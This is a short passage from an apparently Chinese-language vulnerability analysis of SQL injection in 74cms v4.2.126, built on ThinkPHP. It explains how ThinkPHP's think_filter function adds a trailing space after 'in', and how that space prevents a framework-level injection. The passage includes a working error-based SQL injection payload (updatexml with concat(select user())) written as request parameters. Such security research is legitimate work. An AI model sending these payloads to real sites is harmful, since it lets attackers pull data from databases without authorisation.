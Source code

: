 ![](resource/74cmsv4.2.126-前台四处sql注入/media/rId31.png)

    例如：
        没有使用think_filter 函数时
    goods_name[0]=in&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp

    使用了think_filter函数时
      goods_name[0]=in &goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
      注意：使用了think_filter函数时 in后面是有空格的也就是说返回值是
    goods_name[0]=in(空格)&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
    而正是这个空格的问题，就可以修复掉可能发生的框架注入问题。
